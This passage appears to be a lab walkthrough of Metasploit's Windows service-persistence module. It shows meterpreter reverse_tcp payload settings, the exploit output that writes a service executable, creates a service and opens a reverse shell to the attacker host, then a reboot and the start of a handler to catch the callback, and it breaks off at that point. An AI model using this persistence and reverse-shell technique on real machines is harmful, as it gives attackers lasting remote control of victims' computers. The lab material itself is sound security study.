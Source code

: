 ```


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, 
   LHOST     192.168.38.140   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows
```



Running the exploit:

```
msf5 exploit(windows/local/persistence_service) > exploit

[*] Started reverse TCP handler on 192.168.38.140:4444 
[*] Running module against HAMID-PC
[+] Meterpreter service exe written to C:\Windows\TEMP\etqG.exe
[*] Creating service RbRebR
[*] Cleanup Meterpreter RC File: /root/.msf4/logs/persistence/HAMID-PC_20200415.4142/HAMID-PC_20200415.4142.rc
[*] Sending stage (180291 bytes) to 192.168.38.141
[*] Meterpreter session 2 opened (192.168.38.140:4444 -> 192.168.38.141:49513) at 2020-04-15 08:41:43 -0700

meterpreter >
```



To verify that the service was persistent I decided to reboot windows machine and attempt to reconnect to it. Rebooting (force immediate):

```
C:\Windows\system32>shutdown /f
[*] 10.1.1.100 - Meterpreter session 2 closed.  Reason: Died
```



Now we run a handler to connect back to the machine (source: http://en.redinskala.com/starting-a-handler-with-metasploit/)

```
use exploit/multi/handler 
```

Options:
